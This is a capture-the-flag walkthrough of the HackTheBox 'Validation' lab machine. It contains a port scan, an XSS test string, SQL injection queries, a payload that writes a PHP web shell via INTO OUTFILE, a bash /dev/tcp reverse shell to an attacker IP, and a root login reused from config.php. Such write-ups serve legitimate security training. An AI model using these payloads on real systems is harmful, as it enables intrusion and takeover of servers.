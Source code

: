 ```yaml
---
title: "HackTheBox Validation Walkthrough"
date: "2022-06-16"
categories: 
  - "htb-walkthroughs"
coverImage: "pexels-andri-218413-scaled.jpg"
---
```


I've been experimenting with Rustscan lately and it's a lot faster than NMAP.

Here's the GitHub Link. [https://github.com/RustScan/RustScan](https://github.com/RustScan/RustScan)

rustscan -a 10.10.11.116 -- -A -Pn -T4 -sC -sV

Open 10.10.11.116:22
Open 10.10.11.116:80
Open 10.10.11.116:4566
Open 10.10.11.116:8080

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.48 ((Debian))
| http-methods: 
|\_  Supported Methods: GET HEAD POST OPTIONS
|\_http-server-header: Apache/2.4.48 (Debian)
|\_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open  http    syn-ack nginx
|\_http-title: 403 Forbidden
8080/tcp open  http    syn-ack nginx
|\_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel

We got a few ports open, 80 is the most interesting right now.

[![](images/image-11-1024x490.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-11.png)

<script>alert('1')</script>

The WebApp is vulnerable to stored XSS as well as reflective XSS but that doesn't really help us much.

Intercepting the request in Burp when clicking "Join Now". We can try to see if SQLi is possible.

[![](images/image-12-1024x751.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-12.png)

Adding a ' after Brazil returns an error. The Web App is likely vulnerable to a SQLi attack.

You may have to copy the response cookie into the request cookie to get the error to show up.

[![](images/image-14-1024x807.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-14.png)

' union select version()-- -

You will need to URL encode that line to get it to work.

[![](images/image-18-1024x785.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-18.png)

The Web App returns MariaDB 10.5.11. We executed a successful SQLi attack and got some information disclosure.

Next, let's try and get a reverse shell.

Upon searching the net, I figured out I could upload a file using MariaDB.

' UNION SELECT "<?php SYSTEM($\_REQUEST\['cmd'\]) ?>" INTO OUTFILE "C:\\wamp64\\www\\wordpress/shell.php"-- -

[![](images/image-16.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-16.png)

The WebApp will return an error, however if we visit the link http://10.10.11.116/shell.php We can see that it's working.

I tried to check what is in /bin to see what program I can use for the reverse shell.

[![](images/image-17-1024x307.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-17.png)

bash is running, that's all I need.

I got my reverse shell one liner from this useful website [https://www.revshells.com/](https://www.revshells.com/)

Start a NC listener on the Kali machine.

nc -lnvp 9999

Now this took me a while to figure out.

bash -i >& /dev/tcp/10.10.14.19/4444 0>&1

This line needs to be encoded and passed to bash -c.

Here is the final URL.

http://10.10.11.116/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.19/9999+0>%261'

[![](images/image-19.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-19.png)

And we've got a shell!

The next part was pretty easy. We can use python HTTP server and curl to get linpeas.sh over or we can simply look in config.php to get the password.

[![](images/image-20.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-20.png)

The password is for a username, but it also happens to work for root.

And we're all done!
